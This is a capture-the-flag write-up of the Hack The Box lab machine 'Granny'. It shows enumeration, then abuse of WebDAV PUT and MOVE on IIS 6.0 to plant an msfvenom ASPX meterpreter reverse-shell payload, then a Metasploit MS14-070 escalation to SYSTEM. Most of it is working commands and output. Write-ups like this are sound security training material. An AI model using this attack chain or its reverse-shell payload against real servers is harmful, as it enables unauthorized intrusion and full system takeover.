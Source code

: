 ```yaml
---
layout: writeup
title: Granny
description: "HTB writeup"
logo: /assets/img/writeups/granny_logo.png
show-avatar: false
permalink: /writeups/granny.html
OS: Windows
difficulty: Easy
release: 12 Apr 2017
creator: <a href="https://www.hackthebox.eu/home/users/profile/1">ch4p</a>
cleared: 12 Nov 2019
published: 2019 11 12
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Tue Nov 12 17:01:01 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.080s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Tue, 12 Nov 2019 22:03:04 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:03:00 2019 -- 1 IP address (1 host up) scanned in 118.58 seconds
```

we see the only open port is **80** and if we navigate to the page we see a default "Under Construction" page. However we see from the scan that it using webDAV. So lets run **davtest**

![davtest](/assets/img/writeups/granny_davtest.png)

Looking at the output of running **nikto** we see that the server is running ASP.net.

```
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.15
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
<...>
```

However davtest shows us that we can't use PUT to upload an asp or aspx file. However running davtest with the -move flag

```
root@kali:~/HTB/Boxes/Granny# davtest -url http://10.10.10.15 -move                       <...>  
Sending test files (MOVE method)
<...>
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_asp.txt
MOVE    asp     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.asp                               <...>
http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.cfm
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_aspx.txt
MOVE    aspx    SUCCEED:
<...>
```

shows us that we can use MOVE to change a file extension to .asp or .aspx

With that knowledge, let's create an .aspx payload and upload it as a .html file and rename it to .aspx file

<h3 align="center">Explotation</h3>

Let's create a payload with **msfvenom**

```sh
root@kali:~/HTB/Boxes/Granny# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o hilbert.html                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2818 bytes 
Saved as: hilbert.html
```

Now we'll use **curl** to upload the file to the server and change the extension

```sh
root@kali:~/HTB/Boxes/Granny# curl http://10.10.10.15 --upload-file hilbert.html
root@kali:~/HTB/Boxes/Granny# curl -X MOVE --header 'Destination:http://10.10.10.15/hilbert.aspx' 'http://10.10.10.15/hilbert.html'
```

Then we will run **Metasploit** and use a multi hander to listen for our shell

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
```

Then we will direct our browser to hilbert.aspx to activate our reverse shell

```
[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Sending stage (180291 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.15:1031) at 2019-11-18 16:30:40 -0500

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Next we will use exploit suggester to find a vulnerability we can use for privilege escalation

```
meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(multi/handler) > use 0
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

The exploit that will work is "exploit/windows/local/ms14_070_tcpip_ioctl"

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > session -i 1
[-] Unknown command: session.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

We now have full access to the system and can read the user.txt and root.txt flags.
